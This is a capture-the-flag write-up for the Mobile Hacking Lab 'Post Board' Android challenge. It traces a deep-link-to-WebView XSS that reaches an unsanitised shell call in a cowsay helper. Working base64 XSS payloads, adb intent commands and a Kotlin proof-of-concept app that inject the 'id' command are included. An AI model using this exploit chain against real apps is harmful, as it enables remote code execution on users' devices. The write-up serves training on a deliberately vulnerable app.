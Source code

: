 ```yaml
---
date: '2025-04-04T22:05:31+08:00'
title: 'MHL Post Board'
tags:
    - MHL
    - Android CTF
---
```


## Challenge Description

> Welcome to the Android Insecure WebView Challenge! This challenge is designed to delve into the complexities of Android's WebView component, exploiting a Cross-Site Scripting (XSS) vulnerability to achieve Remote Code Execution (RCE). It's an immersive opportunity for participants to engage with Android application security, particularly focusing on WebView security issues.
>
> [postboard.apk](static/postboard.apk)

## Solution

As usual, I started by performing static analysis to get some understanding of the application.

### Static Analysis

I started out by reading the `AndroidManifest.xml` code after decompiling using `jadx-gui`.

```xml
<activity
    android:name="com.mobilehackinglab.postboard.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="postboard"
            android:host="postmessage"/>
    </intent-filter>
</activity>
```

There is only `MainActivity` activity which is exported and it has this intent filter where it accept URI data `postboard://postmessage`. 

```java
private final void setupWebView(WebView webView) {
    webView.getSettings().setJavaScriptEnabled(true);
    webView.setWebChromeClient(new WebAppChromeClient());
    webView.addJavascriptInterface(new WebAppInterface(), "WebAppInterface");
    webView.loadUrl("file:///android_asset/index.html");
}

private final void handleIntent() {
    Intent intent = getIntent();
    String action = intent.getAction();
    Uri data = intent.getData();
    if (!Intrinsics.areEqual("android.intent.action.VIEW", action) || data == null || !Intrinsics.areEqual(data.getScheme(), "postboard") || !Intrinsics.areEqual(data.getHost(), "postmessage")) {
        return;
    }
    ActivityMainBinding activityMainBinding = null;
    try {
        String path = data.getPath();
        byte[] decode = Base64.decode(path != null ? StringsKt.drop(path, 1) : null, 8);
        Intrinsics.checkNotNullExpressionValue(decode, "decode(...)");
        String message = StringsKt.replace$default(new String(decode, Charsets.UTF_8), "'", "\\'", false, 4, (Object) null);
        ActivityMainBinding activityMainBinding2 = this.binding;
        if (activityMainBinding2 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
            activityMainBinding2 = null;
        }
        activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");
    } catch (Exception e) {
        ActivityMainBinding activityMainBinding3 = this.binding;
        if (activityMainBinding3 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
        } else {
            activityMainBinding = activityMainBinding3;
        }
        activityMainBinding.webView.loadUrl("javascript:WebAppInterface.postCowsayMessage('" + e.getMessage() + "')");
    }
}
```

Moving on to the main activity code, there's a function for setting up WebView and it has JavaScript enabled. As for the `handleIntent` function, it basically accept intent and use the data as message after base64 decode and the message will be used in WebView while executing the JavaScript function `WebAppInterface.postMarkdownMessage`. If there's an error, it will instead execute the JavaScript function `WebAppInterface.postCowsayMessage`.

```java
@JavascriptInterface
public final void postMarkdownMessage(String markdownMessage) {
    Intrinsics.checkNotNullParameter(markdownMessage, "markdownMessage");
    String html = new Regex("```(.*?)```", RegexOption.DOT_MATCHES_ALL).replace(markdownMessage, "<pre><code>$1</code></pre>");
    String html2 = new Regex("`([^`]+)`").replace(html, "<code>$1</code>");
    String html3 = new Regex("!\\[(.*?)\\]\\((.*?)\\)").replace(html2, "<img src='$2' alt='$1'/>");
    String html4 = new Regex("###### (.*)").replace(html3, "<h6>$1</h6>");
    String html5 = new Regex("##### (.*)").replace(html4, "<h5>$1</h5>");
    String html6 = new Regex("#### (.*)").replace(html5, "<h4>$1</h4>");
    String html7 = new Regex("### (.*)").replace(html6, "<h3>$1</h3>");
    String html8 = new Regex("## (.*)").replace(html7, "<h2>$1</h2>");
    String html9 = new Regex("# (.*)").replace(html8, "<h1>$1</h1>");
    String html10 = new Regex("\\*\\*(.*?)\\*\\*").replace(html9, "<b>$1</b>");
    String html11 = new Regex("\\*(.*?)\\*").replace(html10, "<i>$1</i>");
    String html12 = new Regex("~~(.*?)~~").replace(html11, "<del>$1</del>");
    String html13 = new Regex("\\[([^\\[]+)\\]\\(([^)]+)\\)").replace(html12, "<a href='$2'>$1</a>");
    String html14 = new Regex("(?m)^(\\* .+)((\\n\\* .+)*)").replace(html13, new Function1<MatchResult, CharSequence>() { // from class: com.mobilehackinglab.postboard.WebAppInterface$postMarkdownMessage$1
        @Override // kotlin.jvm.functions.Function1
        public final CharSequence invoke(MatchResult matchResult) {
            Intrinsics.checkNotNullParameter(matchResult, "matchResult");
            return "<ul>" + CollectionsKt.joinToString$default(StringsKt.split$default((CharSequence) matchResult.getValue(), new String[]{"\n"}, false, 0, 6, (Object) null), "", null, null, 0, null, new Function1<String, CharSequence>() { // from class: com.mobilehackinglab.postboard.WebAppInterface$postMarkdownMessage$1.1
                @Override // kotlin.jvm.functions.Function1
                public final CharSequence invoke(String it) {
                    Intrinsics.checkNotNullParameter(it, "it");
                    StringBuilder append = new StringBuilder().append("<li>");
                    String substring = it.substring(2);
                    Intrinsics.checkNotNullExpressionValue(substring, "this as java.lang.String).substring(startIndex)");
                    return append.append(substring).append("</li>").toString();
                }
            }, 30, null) + "</ul>";
        }
    });
    String html15 = new Regex("(?m)^\\d+\\. .+((\\n\\d+\\. .+)*)").replace(html14, new Function1<MatchResult, CharSequence>() { // from class: com.mobilehackinglab.postboard.WebAppInterface$postMarkdownMessage$2
        @Override // kotlin.jvm.functions.Function1
        public final CharSequence invoke(MatchResult matchResult) {
            Intrinsics.checkNotNullParameter(matchResult, "matchResult");
            return "<ol>" + CollectionsKt.joinToString$default(StringsKt.split$default((CharSequence) matchResult.getValue(), new String[]{"\n"}, false, 0, 6, (Object) null), "", null, null, 0, null, new Function1<String, CharSequence>() { // from class: com.mobilehackinglab.postboard.WebAppInterface$postMarkdownMessage$2.1
                @Override // kotlin.jvm.functions.Function1
                public final CharSequence invoke(String it) {
                    Intrinsics.checkNotNullParameter(it, "it");
                    StringBuilder append = new StringBuilder().append("<li>");
                    String substring = it.substring(StringsKt.indexOf$default((CharSequence) it, '.', 0, false, 6, (Object) null) + 2);
                    Intrinsics.checkNotNullExpressionValue(substring, "this as java.lang.String).substring(startIndex)");
                    return append.append(substring).append("</li>").toString();
                }
            }, 30, null) + "</ol>";
        }
    });
    String html16 = new Regex("^> (.*)", RegexOption.MULTILINE).replace(html15, "<blockquote>$1</blockquote>");
    this.cache.addMessage(new Regex("^(---|\\*\\*\\*|___)$", RegexOption.MULTILINE).replace(html16, "<hr>"));
}

@JavascriptInterface
public final void postCowsayMessage(String cowsayMessage) {
    Intrinsics.checkNotNullParameter(cowsayMessage, "cowsayMessage");
    String asciiArt = CowsayUtil.INSTANCE.runCowsay(cowsayMessage);
    String html = StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(asciiArt, "&", "&amp;", false, 4, (Object) null), "<", "&lt;", false, 4, (Object) null), ">", "&gt;", false, 4, (Object) null), "\"", "&quot;", false, 4, (Object) null), "'", "&#039;", false, 4, (Object) null);
    this.cache.addMessage("<pre>" + StringsKt.replace$default(html, "\n", "<br>", false, 4, (Object) null) + "</pre>");
}
```

Looking at both the JavaScript function, the `postMarkdownMessage` function has a set of rules where it only allows specific HTML tag to be rendered in the WebView. The HTML that might be useful is `<img>` and `<a>` as this 2 could potentially trigger XSS. Moving on to `postCowsayMessage`, it will run `CowsayUtil.INSTANCE.runCowsay` function.

```java
public final String runCowsay(String message) {
    Intrinsics.checkNotNullParameter(message, "message");
    try {
        String[] command = {"/bin/sh", "-c", CowsayUtil.scriptPath + ' ' + message};
        Process process = Runtime.getRuntime().exec(command);
        StringBuilder output = new StringBuilder();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        try {
            BufferedReader reader = bufferedReader;
            while (true) {
                String it = reader.readLine();
                if (it == null) {
                    Unit unit = Unit.INSTANCE;
                    Closeable.closeFinally(bufferedReader, null);
                    process.waitFor();
                    String sb = output.toString();
                    Intrinsics.checkNotNullExpressionValue(sb, "toString(...)");
                    return sb;
                }
                output.append(it).append("\n");
            }
        } finally {
        }
    } catch (Exception e) {
        e.printStackTrace();
        return "cowsay: " + e.getMessage();
    }
}
```

Looking into the `runCowsay` function, it basically interacting with shell command which I could inject my command easily since it is not sanitized. Now that I have some basic understanding, I tried to perform dynamic analysis to check if its correct.

### Dynamic Analysis

Based on my previous information, I will need to provide a URI `postboard://postmessage` and following with the message. The message will need to be base64 encoded. I started off by create a simple xss payload `<a href="javascript:alert(1)">yeeehar</a>` and inject to the application.

```bash
adb shell am start -a android.intent.action.VIEW -d 'postboard://postmessage/PGEgaHJlZj0iamF2YXNjcmlwdDphbGVydCgxKSI-eWVlZWhhcjwvYT4'
Starting: Intent { act=android.intent.action.VIEW dat=postboard://postmessage/... }
```

![alt text](img/index.png#center)

This method allows me to perform XSS but it will need me to click the hyperlink. I continue by crafting the payload to trigger the vulnerable function, `<a href="javascript:WebAppInterface.postCowsayMessage('hi;id');location.reload();">yeehar</a>`

```bash
adb shell am start -a android.intent.action.VIEW -d 'postboard://postmessage/PGEgaHJlZj0iamF2YXNjcmlwdDpXZWJBcHBJbnRlcmZhY2UucG9zdENvd3NheU1lc3NhZ2UoJ2hpO2lkJyk7bG9jYXRpb24ucmVsb2FkKCk7Ij55ZWVoYXI8L2E-'
Starting: Intent { act=android.intent.action.VIEW dat=postboard://postmessage/... }
```

![alt text](img/index-1.png#center)

I managed to perform RCE by triggering the function and perform simple command injection. I then proceed to write a simple POC app to perform the attack in Kotlin. Do note that it is also possible to use `img` tag and it could trigger the function without performing any click.

```kotlin
val intent = Intent().apply {
    setClassName(
        "com.mobilehackinglab.postboard",
        "com.mobilehackinglab.postboard.MainActivity"
    )
    data = Uri.parse("postboard://postmessage/PGEgaHJlZj0iamF2YXNjcmlwdDpXZWJBcHBJbnRlcmZhY2UucG9zdENvd3NheU1lc3NhZ2UoJ2hpO2lkJyk7bG9jYXRpb24ucmVsb2FkKCk7Ij55ZWVoYXI8L2E-")
    action = Intent.ACTION_VIEW
}
startActivity(intent)
```

## Things I learned from this challenge

- Source code review to find potential RCE and XSS